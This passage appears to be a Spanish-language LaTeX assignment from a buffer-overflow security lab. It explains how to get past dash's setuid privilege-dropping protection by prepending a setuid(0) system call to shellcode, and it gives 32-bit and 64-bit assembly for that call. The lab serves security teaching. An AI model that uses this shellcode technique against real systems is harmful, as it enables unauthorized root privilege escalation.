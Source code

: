 \section{Tarea 7: Evadiendo la protección de \texttt{dash}}

En Ubuntu al correr un programa \setuid usando la shell \texttt{dash}, esta se encarga de detectar que el effective UID¡ sea igual real UID, si no lo son elimina los privilegios del mismo.
Esto se logra cambiando el effective UID al real UID.
En las tareas anteriores, hemos apuntado \texttt{/bin/sh} a otra shell llamada \texttt{zsh} que no tiene esta protección. Por favor apunte nuevamente \texttt{/bin/sh} a \texttt{/bin/dash}.

\begin{lstlisting}
$ sudo ln -sf /bin/dash /bin/sh
\end{lstlisting}

Para evadir esta protección en un ataque de buffer overflow, debemos de cambiar el real UID para que sea igual al effective UID. Cuando el usuario root es dueño de un programa \setuid, el effective UID es ceroo, entonces debemos de hacer este cambio antes de que el programa haga la invocación de la shell. Esto se logra usando la llamada al sistema \texttt{setuid(0)} antes de la ejecución de \texttt{execve()}  en el shellcode.

El siguiente código en ensamblador muestra como llamar a \texttt{setuid(0)}. El código binario fue puesto dentro dentro del archivo \texttt{call\_shellcode.c}, sólo debe agregar este fragmento al comienzo del shelllcode.

\begin{lstlisting}[language={[x86masm]Assembler}]
; Invoke setuid(0): 32-bit
xor ebx, ebx      ; ebx = 0: setuid()'s argument
xor eax, eax
mov  al, 0xd5     ; setuid()'s system call number
int 0x80

; Invoke setuid(0): 64-bit
xor rdi, rdi      ; rdi = 0: setuid()'s argument
xor rax, rax       
mov  al, 0x69     ; setuid()'s system call number
syscall
\end{lstlisting}

\paragraph{Experimento.} Compile el archivo \texttt{call\_shellcode.c} dentro de un binario cuyo dueño sea el usuario root (tipeando \texttt{"make setuid"}). Corra el shellcode \texttt{a32.out} y \texttt{a64.out} con o sin la llamada al sistema \texttt{setuid(0)}. Por favor describa y explique sus observaciones.

